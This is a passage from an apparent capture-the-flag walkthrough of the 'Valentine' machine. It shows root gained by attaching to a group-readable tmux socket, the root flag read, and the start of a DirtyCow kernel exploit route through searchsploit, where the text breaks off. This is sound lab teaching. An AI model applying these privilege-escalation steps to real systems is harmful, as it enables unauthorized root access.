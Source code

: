 That is to say, in line 5-7 of the history, the user goes into the
`/.devs` directory. In line 9 we see him start tmux session with the
socket `dev_sess`. He tried to attach to that session with
`-a t dev_sess` (line 10), but that's not the correct way to do it. Then
he runs the help command (line 11), and gets the correct way to connect,
using `-S` (line 12).

If we look at the permissions for the socket, it's owned by room, but
its group is hype, and the file is readable by group:



    hype@Valentine:~$ ls -l /.devs
    total 0
    srw-rw---- 1 root hype 0 Jul 25 15:07 dev_sess



We can connect to the session the same way hype did, with `-S`:
![](/img/1532741669699.png)

In the picture, you'll see the tmux session I was running on my kali,
and inside that the tmux session on Valentine.

Grab root.txt:



    root@Valentine:/home/hype# id
    uid=0(root) gid=0(root) groups=0(root)
    root@Valentine:/home/hype# cat /root/root.txt
    f1bb6d75...



### Privesc 2: DirtyCow

We already suspect that this is an old kernel. `uname -a` confirms it:



    hype@Valentine:~$ uname -a
    Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux



[Wikipedia](https://en.wikipedia.org/wiki/Dirty_COW) confirms this
version is vulnerable to DirtyCow. There's a few options in
searchsploit:



    root@kali:/opt/linux_privesc# searchsploit dirty
    ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
     Exploit Title                                                                                                                                                                      |  Path
                                                                                                                                                                                        | (/usr/share/exploitdb/)
    ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
    Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page                                                                                                                  | exploits/linux/dos/43199.c
    Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)                                                                  | exploits/linux/local/40616.c
    Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)                                                                     | exploits/linux/local/40847.cpp